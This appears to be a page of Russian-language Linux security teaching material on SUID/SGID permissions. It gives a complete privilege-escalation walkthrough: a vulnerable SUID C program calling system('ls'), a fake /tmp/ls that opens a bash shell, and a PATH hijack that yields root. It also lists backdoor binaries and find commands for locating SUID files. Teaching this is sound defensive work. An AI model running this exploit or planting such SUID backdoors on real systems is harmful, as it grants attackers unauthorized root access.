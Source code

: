 **Опасное использование:**
```bash
/tmp/backdoor.sh   # Владелец = root, SUID → instant root shell
/home/user/shell   # Скомпилированный backdoor
```

---

#### Почему SUID опасен?

**Если SUID файл имеет уязвимость:**
- Buffer overflow → execute arbitrary code as root
- Command injection → execute commands as root
- Race condition → modify file before execution

**Пример:**
```c
// suid_program.c (владелец = root, SUID)
#include <stdlib.h>
int main() {
    system("ls");    // ❌ УЯЗВИМОСТЬ: не полный путь!
}
```

```bash
# Компиляция
gcc suid_program.c -o suid_program
sudo chown root suid_program
sudo chmod 4755 suid_program

# Эксплойт:
cat > /tmp/ls << 'EOF'
#!/bin/bash
/bin/bash    # Backdoor shell
EOF
chmod +x /tmp/ls
export PATH=/tmp:$PATH

# Запуск SUID программы:
./suid_program
# Вызывается /tmp/ls (не /bin/ls) → root shell!
```

---

### Поиск SUID/SGID файлов

**Найти все SUID файлы:**
```bash
find / -perm -4000 -type f 2>/dev/null
```

**Найти все SGID файлы:**
```bash
find / -perm -2000 -type f 2>/dev/null
```

